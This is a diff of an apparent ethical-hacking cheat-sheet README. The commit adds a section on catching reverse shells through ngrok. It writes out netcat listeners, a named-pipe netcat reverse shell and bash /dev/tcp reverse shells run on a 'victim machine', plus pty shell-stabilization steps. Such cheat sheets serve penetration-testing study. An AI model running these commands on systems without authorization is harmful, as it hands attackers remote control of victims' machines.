

Before and after one commit to Carromano/My_ETH_Tool_list, a Markdown page: README.md, the part around the change. Shown at 89% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -826,6 +826,49 @@ shell.sh:
 
 4. The attacker runs a command in the first window on theattacker’s system. The target system reads the commands,executes it locally, and it returns the result to the second window of the attacker
 
+## NGROK
+
+### METHOD 1
+prerequisites: Install ngrok from the [site](https://ngrok.com/) and authenticate is + Netcat installed
+
+1. Open a netcat listener on local machine
+    > nc -lvp 4444
+2. Expose the port to the internet using ngrok, in another terminal
+    > ngrok tcp 4444
+    >
+    > look for the output:
+    >> Forwarding       \t\t    tcp://4.tcp.eu.ngrok.io:[PORT] -> localhost:4444
+
+3. on the victim machine run `cat /tmp/f|sh -i 2>&1|nc [ngrok-host] [ngrok-port] > /tmp/f`
+
+### Living Off The Land
+
+1. take the IP addreess of the ngrok endpoint resolving the hostname:
+    > nslookup 4.tcp.eu.ngrok.io
+
+2. use that IP address in the netcat command on the remote machine:
+    > bash -i >& /dev/tcp/[NGROK-IP]/[NGROK-PORT] 0>&1
+    >
+    > or, if we are out of a bash environment:
+    >> bash -c "bash -i >& /dev/tcp/[NGROK-IP]/[NGROK-PORT] 0>&1"
+
+## SHELL STABILIZATION
+
+in order to use job control commands (with CTRL), reset TERM, line editing, ecc...
+
+After connecting the shell, if ***python*** is available on the victim machine:
+
+> python3 -c 'import pty;pty.spawn("/bin/bash")'; export TERM=xterm
+
+Then press CTRL+Z to background the actual terminal and return to the local terminal. Then write:
+
+> stty raw -echo; fg
+
+This last line disables line buffering and special character interpretation, disables character echoing and configures the local terminal to pass input directly to the remote shell.
+
+
+
+
 <br>
 <br>
 
```
